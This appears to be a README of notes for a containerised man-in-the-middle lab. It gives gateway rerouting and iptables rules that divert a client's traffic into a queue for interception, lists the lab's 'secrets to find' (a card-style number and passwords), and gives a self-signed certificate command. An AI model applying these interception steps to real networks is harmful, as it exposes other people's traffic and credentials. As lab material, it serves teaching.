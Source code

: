 ## Useful commands

docker exec -it client /bin/sh
docker exec -it mitm /bin/bash

### Exercise 1

mitm IP:
172.20.0.3

Del and add gateway: 
route del default gw 172.20.0.1
route add default gw 172.20.0.3

To become a router between the router and the client: 
iptables -A FORWARD -i eth0 -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

To forward the traffic to the queue:
iptables -D FORWARD -i eth0 -j ACCEPT
iptables -A FORWARD -j NFQUEUE --queue-num 1

secret to find:
cc --- 8452.8214.9088.8566
pwd --- VERYSECURE1111
pwd --- UQXI5I06UX924

### Exercise 2
Del and add gateway: 
route del default gw 172.21.0.1
route add default gw 172.21.0.3

To become a router between the router and the client: 
iptables -A FORWARD -i eth0 -j ACCEPT
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

To forward the traffic to the queue:
iptables -D FORWARD -i eth0 -j ACCEPT
iptables -A FORWARD -j NFQUEUE --queue-num 1


### Exercise 3

create certificate: openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /certs/nginx-selfsigned.key -out /certs/nginx-selfsigned.crt


